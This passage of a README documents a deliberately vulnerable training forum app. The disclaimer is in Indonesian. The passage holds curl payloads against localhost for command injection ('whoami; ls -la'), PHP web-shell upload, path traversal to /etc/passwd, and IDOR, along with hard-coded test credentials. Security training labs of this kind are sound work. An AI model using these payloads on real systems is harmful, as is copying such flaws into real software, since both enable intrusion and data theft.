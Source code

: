 ```bash
curl -X POST http://localhost:8000/system-info \
  -d "command=whoami; ls -la"
```

### 6. File Upload

```bash
# Upload PHP shell
curl -X POST http://localhost:8000/upload \
  -F "file=@shell.php"
```

### 7. File Inclusion

```bash
curl "http://localhost:8000/include-file?file=../../../etc/passwd"
```

### 8. IDOR

```
/profile/1 (admin profile)
/edit-post/1 (edit any post)
/user/2 (any user profile)
```

## 📋 Test Accounts

-   **Admin**: admin@forum.com / admin123
-   **User 1**: john@forum.com / password123
-   **User 2**: jane@forum.com / password123

## 🚀 Server Status

Server running at: `http://127.0.0.1:8000`

## 📝 Dokumentasi

-   **README.md**: Project documentation
-   **OWASP_TOP_10_TESTS.md**: Detailed testing guide
-   **VULNERABILITY_TESTS.md**: Quick vulnerability tests
-   **IMPLEMENTATION_COMPLETE.md**: Implementation summary

## ⚠️ DISCLAIMER

**UNTUK TUJUAN EDUKASI SAJA!**

Aplikasi ini dirancang untuk:

-   Pembelajaran keamanan web
-   Pelatihan penetration testing
-   Memahami kerentanan aplikasi web
-   Praktik secure coding
